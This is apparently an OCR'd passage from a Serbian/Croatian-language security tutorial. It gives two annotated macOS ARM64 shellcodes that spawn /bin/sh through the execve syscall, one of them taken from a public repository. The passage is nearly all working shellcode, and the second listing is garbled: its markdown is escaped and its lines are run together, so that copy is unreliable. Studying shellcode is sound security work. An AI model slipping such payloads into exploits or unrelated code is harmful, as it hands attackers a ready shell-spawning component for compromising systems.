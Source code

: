 ```c
}
```

**Školjka**

Preuzeto sa [**ovde**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) i objašnjeno.

```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```



\`\`\`armasm .section \_\_TEXT,\_\_text ; This directive tells the assembler to place the following code in the \_\_text section of the \_\_TEXT segment. .global \_main ; This makes the \_main label globally visible, so that the linker can find it as the entry point of the program. .align 2 ; This directive tells the assembler to align the start of the \_main function to the next 4-byte boundary (2^2 = 4).

\_main: ; We are going to build the string "/bin/sh" and place it on the stack.

mov x1, #0x622F ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'. movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'. movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'. movk x1, #0x68, lsl #48 ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

str x1, \[sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

; Prepare arguments for the execve syscall.

mov x1, #8 ; Set x1 to 8. sub x0, sp, x1 ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack. mov x1, xzr ; Clear x1, because we need to pass NULL as the second argument to execve. mov x2, xzr ; Clear x2, because we need to pass NULL as the third argument to execve.

; Make the syscall.

mov x16, #59 ; Move the execve syscall number (59) into x16. svc #0x1337 ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.
